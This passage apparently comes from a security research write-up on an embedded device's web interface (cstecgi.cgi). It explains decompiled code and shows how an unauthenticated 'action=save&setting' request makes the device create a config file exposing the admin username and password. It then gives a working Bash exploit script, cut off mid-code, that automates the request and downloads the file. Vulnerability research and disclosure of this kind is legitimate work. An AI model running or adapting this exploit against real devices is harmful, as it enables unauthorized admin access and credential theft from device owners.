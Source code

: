 ![](/assets/images/ea0430de921c0f7e3ef506c9bc35d735)

By moving to the following lines, It checks if the file cannot be opened then it will print error massege, If the file is opened successfully, The code writes a single byte `DAT_0001dc0c` to the file,followed by the contents of the `local_38` variable.Then closing the file after this, The code then retrieves the current date using the `date` command and formats it as a string in `local_88`. Then using the `sprintf()` function to create a system command that copies the `config.dat` file to a new file named `Config-[local_a8]-[local_88].dat`, Finally the command executed using the `system()` function as it saved in `acStack_78`. Now, we understand how the file is created and as we can send the unauthorized request to create it, Let's do it and take a look on the file.

![](/assets/images/2c8c650713336acf4b07311162228a1d)

Here we sent the request, you can see in the response it's redirect to the location of the file configuration file, If we follow the request we can see the file contents:

![](/assets/images/01d61bc4f02ff2b6826a87e9b6bbdeef)

Now, Let's download the file normally and extract the strings from it using `strings` command.

![](/assets/images/626bb4b69ce3562450a728acf14e02da)

As we can see when we run strings command we can notice the `!admin` string and below it we can notice the `!1337`. And normally it looks like the `admin` which is the user and `1337` which is the password & the `!` sign coming from the file. If we take a look again by printing the line number of each string we got, You can see clearly that the username and password got the `6th` & `7th` lines.

![](/assets/images/a234e038f8f6a1565bfff2bdc2b2339d)

Now, Let's automate the process using `Bash` script to exploit it and print out the user name and password.

```
#!/bin/bash

ip=$1
url="http://${ip}/cgi-bin/cstecgi.cgi?action=save&setting"

echo "[*] Target: $ip"
echo "[+] Sending creation request...."
response=$(curl -i -X GET $url \
           -H "Host: ${ip}" \
           -H 'Accept-Encoding: gzip, deflate' \
           -H 'Accept: */*' \
           -H 'Accept-Language: en-US;q=0.9,en;q=0.8' \
           -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36' \
           -H 'Connection: close' \
           -H 'Cache-Control: max-age=0' \
           --max-redirs 0)
echo "[+] Creation Request Sent"
location_header=$(echo "$response" | grep -i location | awk '{print $2}' | tr -d '\r')
new_url=$(echo "$location_header")
file_name=$(echo "$location_header" | awk -F "/" '{print $4}')
if [[ ! -z "$new_url" ]]; then
echo "[+] Requesting the File......"
    response_body=$(curl -s -X GET "$new_url" \
         -H "Host: ${ip}" \
         -H 'Accept-Encoding: gzip, deflate' \
         -H 'Accept: */*' \
         -H 'Accept-Language: en-US;q=0.9,en;q=0.8' \
         -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36' \
         -H 'Connection: close' \
         -H 'Cache-Control: max-age=0')
```